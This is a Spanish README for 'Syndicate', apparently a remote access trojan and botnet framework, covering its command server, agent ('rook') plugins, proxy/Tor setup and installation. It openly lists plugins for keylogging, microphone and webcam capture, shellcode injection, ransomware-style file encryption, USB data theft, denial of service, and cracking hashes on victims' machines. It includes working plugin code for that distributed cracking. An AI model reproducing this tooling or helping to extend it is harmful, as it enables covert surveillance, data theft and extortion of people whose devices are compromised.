Ejemplo realista:

Es mejor si usamos un ejemplo más serio, cómo por ejemplo configurar la lista de proxy's que usara **Evie** o Usar algún complemento de **Syndicate** que necesite parámetros:

Ejemplo de configuración de un proxy. *En mi caso configuraré Tor y un proxy que salio de un sitio cualquiera*

```
;a;proxy=list:,dict:;p;proxy_type=str:SOCKS4;p;proxy_addr=str:127.0.0.1;p;proxy_port=int:9050;p;rds=bool:1;p;username=null;p;password=null,dict:;e;proxy_type=str:HTTP;e;proxy_addr=str:194.143.151.96;e;proxy_port=int:36639;e;rds=bool:1;e;username=null;e;password=null
```

En la salida de Python:

```python
{'proxy': [{'proxy_type': 'SOCKS4', 'proxy_addr': '127.0.0.1', 'proxy_port': 9050, 'rds': True, 'username': None, 'password': None}, {'proxy_type': 'HTTP', 'proxy_addr': '194.143.151.96', 'proxy_port': 36639, 'rds': True, 'username': None, 'password': None}]}
```

*¿Sencillo no? :'v*

Algo así tenemos que hacer en la [Configuración](auto-config.sh) de los proxy's para usarlo en [Evie](evie.py).

Ahora otro ejemplo:

```
;a;name=str:erica;a;function=str:Crack;a;params=dict:;b;password_hash=str:0de8e6b341ad870ed79bc7da420df763;b;wordlist=json:/tmp/wordlist.lst;b;hash_func=str:md5
```

En la salida:

```python
{'name': 'erica', 'function': 'Crack', 'params': {'password_hash': '0de8e6b341ad870ed79bc7da420df763', 'wordlist': ['123', 'dtxdf', 'passtohash', 'hashtopass', 'soy_una_contraseña'], 'hash_func': 'md5'}}
```

En este caso uso el complemento **erica** para "crackear" el hash "**0de8e6b341ad870ed79bc7da420df763**" usando una lista de contraseñas en formato **JSON** que se encuentra en "**/tmp/wordlist.lst**".

**Nota**: Puede usar el parámetro "**-h, --help**" en la mayoria de herramientas para ver la ayuda.

## Complementos

Los complementos son una parte escencial de **Syndicate**, amplia la capacidad de funciones.

### Complementos implementados por defecto:

Actualmente solo están estos complementos:

1. microrecord: Graba el micrófono
2. inject: Inyecta **shellcode** o un **ejecutable** en un proceso (Válido sólo para **Windows**)
5. keylogger: Registra las pulsaciones del teclado
7. usbDumper: Puede copiar todos los archivos y directorios que tengan los permisos de lectura correspondientes en una unidad USB, aunque también se podría usar para copiar datos en una carpeta.
8. screenshot: Tomá una captura de pantalla a todos los monitores disponibles
9. websnap: Tomá una fotografia usando la webcam
10. symplix: Cifra los archivos, algo así como un ransomware, pero sin mostrar el mensaje de rescate
11. hjclipboard: Copia o pega algún texto en el portapapeles
12. hulk: Hace un ataque de denegación de servicios (DoS)
13. GeoIP: Geolocaliza la dirección IP (**Requiere conexión a Internet**)
14. erica: Usa los recursos de la victima para tratar de crackear una Suma de verificación (Hash)

**ADVERTENCIA**: **Hulk** está modificado para que actue de manera destructiva y puede agotar los recursos de nuestro dispositivo, por favor hagalo bajo su propia responsabilidad y criterio. Sí va a hacer alguna prueba por favor disminuya los niveles de procesos, hilos e iteraciones en los parámetros.

*Puede ver la ayuda de cada complemento ejecutando: ./evie.py -\<nombre del modulo\>-help*

### Jerarquia de archivos:

Para crear un complemento se necesita saber algunas cosas, cómo la jerarquia de archivos:

```
complemento/
├── evie
│   ├── init.py
│   └── params.py
└── rook
    └── src
        └── init.py
```

*Usé el comando tree para representar la estructura*

* En la raiz, el nombre del complemento (**No se cómo funcionaria con espacios**) y éste no debe llevar puntos (**.**)
* Luego observamos la carpeta **evie**, que contiene dos archivos "**init.py**" y "**params.py**".
  - **init.py**: Es necesario para poder ejecutar el complemento y es donde se encuentra el código para interactuar con el "**init.py**" del **rook**
  - **params.py**: No es necesario, su objetivo es de crear parámetros para interactuar dinámicamente antes de ejecutar **evie.py**, aunque no es necesario que tenga parámetros, puede ejecutar cualquier código que desee.
* Luego vemos la siguiente carpeta "**rook/src**" y se encuentra otro "**init.py**", donde debe contener las funciones que ejecutara el **Jacob**

Para crear un **conector** para Evie, debe tener obligatoriamente la función **main** incluida en el **init.py** y sólo puede tener algunos o todos estos parámetros:

* result: El resultado del **init.py** del **rook**
* log: La función para imprimir texto en la salida al estilo de Evie. La función acepta dos parámetros:
  - text: El texto que deseamos imprimir
  - level: El nivel a usar, recomiendo usar [debug](utils/UI/debug.py) y usar atributos nmotécnicos:
    - INF o 1: INFORME, quiere decir que lo que se muestra en pantalla sólo es un pequeño mensaje casi sin importancia
    - WAR o 2: ADVERTENCIA, debe estar atento a lo que está pasando
    - PER o 3: PERSONAL, Los que se imprime tiene información sensible
    - COM o 4: COMPROMETIDO, debe tener cuidado con lo que se está haciendo o pasó
* bot_id: El identificador del rook
* remote_addr: La dirección IP del cliente y su puerto remoto representado en una tupla: (address, port)
* function: La función que se ejecuto (**Util para cuando se haya muchas funciones en el init.py del rook**)
* exception: La excepción que se produce. En caso de que no haya ninguna el valor es «None»
* args: Sí **params.py** existe y tiene la función "communicate", el valor que retorna estará en este parámetro en un «dict». Algo así: {'complemento':<\valor retornado\>}

**Notas**:

* El **init.py** del **rook** debe tener funciones y no clases, puede mas no debe, porque simplemente [payload.py](payload.py) no lo ejecutará. Todo esto puede variar si usted creá su propia forma de interactuar.
* En [debug](utils/UI/debug.py) los niveles se representarian de la siguiente manera:
  - **debug.INF**: INFORME
  - **debug.WAR**: ADVERTENCIA
  - **debug.PER**: PERSONAL
  - **debug.COM**: COMPROMETIDO
* Los complementos se encuentran en [complements/tools](complements/tools)

Ejemplo de la función **main** en el **init.py** en **Evie**:

```python
from utils.UI import debug # Importamos 'debug' para usar la nmotecnica en los niveles

def main(result, log):

  log.logger('El resultado es: {}'.format(result), debug.PER)

```

Un ejemplo realista que les pudiera mostrar es **erica** (**Gracias kirari** :D):

```python
from utils.UI import evieModule
from utils.UI import debug

def main(result, log, bot_id):

    if (isinstance(result, tuple)):

        if (len(result) == 2):

            wrap = evieModule.CreateDatabase('erica')
            (success, pass_to_hash) = result

            if (success == True):

                log.logger('Hash crackeado => {}'.format(pass_to_hash), debug.PER)

            else:

                log.logger('El hash no se pudo crackear => {}'.format(pass_to_hash), debug.WAR)

            log.logger('Almacenando ...', debug.INF)

            if (bot_id in list(wrap.getall().keys())):

                if (wrap.write(bot_id, 'hash', result) == True):

                    log.logger('¡Hash almacenado!', debug.INF)

                else:

                    log.logger('¡Error almacenando el Hash!', debug.COM)

            else:

                if (wrap.add(bot_id, {'hash':[result]}) == True):

                    log.logger('¡Hash almacenado por primera vez!', debug.INF)

                else:

                    log.logger('¡Error almacenando el Hash!', debug.COM)

        else:

            log.logger('¡La longitud del resultado no es correcta!', debug.WAR)

    else:

        log.logger('El tipo de dato de los resultados del crackeo no es correcto ...', debug.WAR)

```

Para el lado del **rook** sería:

```python
from hashlib import md5 as _md5, sha1 as _sha1, sha224 as _sha224, sha256 as _sha256, sha384 as _sha384, sha512 as _sha512

class HashNotFound(Exception):

    '''
    Llamado cuando el hash no existe
    '''

hash_list = [_md5, _sha1, _sha224, _sha256, _sha384, _sha512]

def Crack(password_hash, wordlist, hash_func):

    if (isinstance(wordlist, list) != True):

        raise TypeError('El tipo de dato de la lista de hashes no es correcta')

    hash_ = [x for x in hash_list if (x.__name__[8:].lower() == hash_func.lower())]

    if ([] == hash_):

        raise HashNotFound('El hash no existe')

    else:

        hash_ = hash_[0]

    for _ in wordlist:

        _ = _.strip()

        if (hash_(_.encode()).hexdigest() == password_hash):

            return(True, _)

    return(False, password_hash)

```

## Funciones ocultas

Muchas herramientas esconden algunas funciones, que si no las mencionara acá, tendrias que leer el código fuente. Aquí un listado:

* [evie.py](evie.py): Evie esconde algunas funcionalidades que nos ayudarian en muchos casos:
  - Tecla **ENTER**: Muestra la dirección URL que se está usando actualmente
  - Tecla **T**: Muestra el token de acceso público
  - Tecla **S**: Muestra la clave secreta
  - Tecla **N**: Muestra el total de peticiones *GET*, *POST*, *HEAD*, *AUTH* y los Bloqueos por *Agente de usuario* y *Dirección IP*
  - Tecla **P**: Muestra el total de peticiones
* Cuando se muestre el formulario en caso de que no usé parámetros estas son sus funcionalidades:
  - **CTRL-H**: Oculta sí no estaba oculta y viceversa por un asterisco
  - **CTRL-D**: Borra todo el contenido escrito (**Esto también sucede con [control.py](control.py)**)
* [control.py](control.py): En anteriores secciones les dije «*seleccionamos el rook*», pero no les dije cómo:
  - Tecla **T** y **B**: El **rook** selecionado será el primero en la lista. Puedes usar **T** para bajar y **B** para subir
  - Tecla **LEFT** y **RIGHT**: Moverse entre comandos. El primero que esté a la izquierda de la lista horizontal, será el seleccionado
  - **<** y **>**: Cuando estemos en el formulario de **inicio de sesión** del **Jacob**, podremos usar alguna sesión almacenada y auto-rellenarse algunos datos
  - **CTRL-X** y **CTRL-T**: CTRL-X lo usamos para copiar al portapapeles toda la salida del buffer y CTRL-T para copiar la clave única

## Sistema Anti Fuerza bruta

El sistema anti fuerza bruta de **Syndicate** es sencillo, primero tendremos que compreder que es el **Hash dinámico**, cosa que ya explique en las **aclaratorias**.

En **Syndicate** al crear un usuario además de la información de perfil, existen algunos datos de seguridad, cómo son los *Caracteres de seguridad*, *Número de seguridad*, *Número de disminución* e *Iteraciones*; Los cuales su funcionamiento principal es generar un Hash. El hash puede tener los mismos caracteres, pero si se introducén cualquier dato diferente al resto de los datos de seguridad el Hash será diferente.

Mientras el proceso sea más lento, mejor en un buen sentido, *¿Por qué?*, simplemente porque si un **atacante** quiere hacer fuerza bruta al servidor, obligatoriamente tiene que tener: El usuario, Frase de contraseña, Los datos de seguridad, La clave pública del servidor, la clave privada y la clave única inclusive.

De hecho otra cosa que es muy importante en cuanto a la seguridad es la **Clave única** que cambia cada vez que el **Jacob** al que le pertenece, inicia sesión.

Claro que eso no es todo, el **atacante** debe conocer la ruta del servidor que puede ser *una aguja en un pajar*.

Sumando todo esto, también nos vemos que en la configuración *especificamente las claves* **honeypot** y **login** vemos unas *sub claves*, como pueden ser:
* login:
  - **max_retry**: El maximo de intentos fallídos
  - **retry_seconds**: El tiempo de espera
  - **denied_method**: El método de denegación que pueden ser:
    - **forIP**: Bloquea a un usuario por dirección IP. Tiene sus pros y contras; entre sus pros puede ser que no es tan fastidioso, ya que si un atacante está bloqueado por dirección IP, nosotros (Los usuarios) podemos acceder cómo si no fuera pasado nada, pero entre sus contras, muy fácil de bypassear
    - **forRetry**: Bloquea a un usuario por el nombre en vez de la dirección IP. Es bueno porque así no se bypassea tan fácil, pero también nos bloquearía a nosotros.
* honeypot:
  - **user_agent_black_list**: Bloquea a un usuario por **Agente de usuario**
  - **blacklist**: Bloquea por dirección IP
  - **honeypot_list**: En vez de bloquear *¿Qué tal si usaramos una herramienta cuando haya un coincidencia?*; así es, por ejemplo podriamos usar **nmap**, cuando haya una coincidencia en la lista para escanear a ese usuario.
    *Necesitamos especificar las herramientas a usar en la clave **tools** *
    
**Nota**: También disponemos de **expresiones regulares** en todas las listas. Pueden ver más informacion en el [Archivo de Configuración](auto-config.sh)

*¿Eso es todo?*... ¡NO!. Si ingresamos por la URL del servidor en nuestro navegador, vemos que nos salta una autenticación le digo que *ese es el panel de control web falso*, es mera distracción 3:).

De hecho trato de simular **Apache** en la información que se pueda obtener. Puedes editar los valores en el [Archivo de configuración](auto-config.sh) y las plantillas en [templates/](templates/)

## Plataformas

* Lamentablemente sólo la probé en Kali linux, pero puede experimentar en otras plataformas.
* Recomiendo que si usted va a probar Syndicate en Windows, use Cygwin o WSL, aunque no le garantizó nada.
* En Android tecnicamente debería funcionar con Userland, aunque tmux no es mala elección.

## Instalación

Primero clonamos el repositorio:

```bash
git clone https://github.com/DtxdF/Syndicate
cd Syndicate
```

Y luego instalamos los...

### Requerimientos

Puede optar por una fácil instalación con PIP, pero hay algunos inconvenientes que dependen de usted.

* En primer lugar, lo que si es necesario ejecutar es [requirements/requiremnts.txt](requirements/requirements.txt):

python3 -m pip install -r requirements/requirements.txt

```
PySocks==1.7.1
pycryptodome==3.9.4
PyYAML==5.1.2
pager==3.3
requests==2.22.0
urllib3==1.25.7
certifi==2019.9.11
chardet==3.0.4
idna==2.8
pyperclip==1.7.0
```

Estos son los requerimientos para que funcione lo más principal de Syndicate, mientras que para los complementos se tendría que seguir los siguientes pasos, no obstante no es necesario instalar para las funcionalidades anteriormente mencionadas, esto sirve para aumentar el poder...

```
requests==2.22.0
pynput==1.4.5
six==1.13.0
python-xlib==0.25
pygame==1.9.6
mss==4.0.3
```

Un último requerimiento para los complementos predeterminados sería "PyAudio", pero esto requiere un poco más de su colaboración:

En el caso de **Windows**:

Seleccioné la versión correspondiente: [PyAudio](https://www.lfd.uci.edu/~gohlke/pythonlibs/#pyaudio)

En mi caso es: PyAudio‑0.2.11‑cp37‑cp37m‑win32.whl

Mientras que en **Linux**:

```bash
sudo apt-get install libasound-dev portaudio19-dev libportaudio2 libportaudiocpp0
sudo apt-get install ffmpeg
sudo pip install PyAudio==0.2.11
```

Usted se estará preguntado: *¿Windows?, ya mencionaste que sólo funciona en **Linux***, Claro, estos requerimientos son para los complementos dependiendo del SO a atacar.

## Limitaciones

Aquí les mostrare un listado de limitaciones, pero además de limitaciones, también son cosas en la que estaré trabajando:

* [control.py](control.py) no puede leer correctamente caracteres especiales como la "**ñ**"
* Los complementos requieren módulos de Python, por lo tanto la compilación varia dependiendo de ello.
* Está en fase **beta**, por lo que puede tener errores, pero he trabajado mucho para que no los tenga
* Compilarlo a un ejecutable puede hacer que "pese" mucho
* Falta documentar muchas cosas
* Sólo está probado en una distribución (**Kali Linux**), no se cómo actuaria en otra plataformas. Aunque el [Payload](payload.py) se ejecuta de igual forma tanto en **Linux** cómo en **Windows**
* Al presionar CTRL-Z puede que dejen de funcionar algunas funciones en [evie.py](evie.py)

## No documentado

* [jacob.py](jacob.py)
* [rook.py](rook.py)
* Herramientas del sistema

## Capturas de pantalla

### Inicio de sesión para Jacob




### Compartiendo un Rook



### Comunicación de un Rook con varios servidores



### Nodos



## Creador

~ *Jesús D. Colmenares* - DtxdF (**DtxdF@protonmail.com**)

## Agradecimientos

* [Kirari-Senpai](https://github.com/Kirari-Senpai): Gracias a tí, si estás leyendo ésto. Tú me ayudaste mucho con los complementos antes de que me surgiera la idea, es admirable que alguien dedique parte de su tiempo a escribir código a alguien que apenas sabe su nombre, pero mucho más a alguien que seguira aportando a este proyecto. Muchas gracias Kirari.
* [n1nj4sec](https://github.com/n1nj4sec): Gracias por aportar a la comunidad con su proyecto [pupy-rat](https://github.com/n1nj4sec/pupy), gracias a él, muchos complementos de **Syndicate** existen.

*Sí hay alguien que me falta, comunicame inmediantamente*
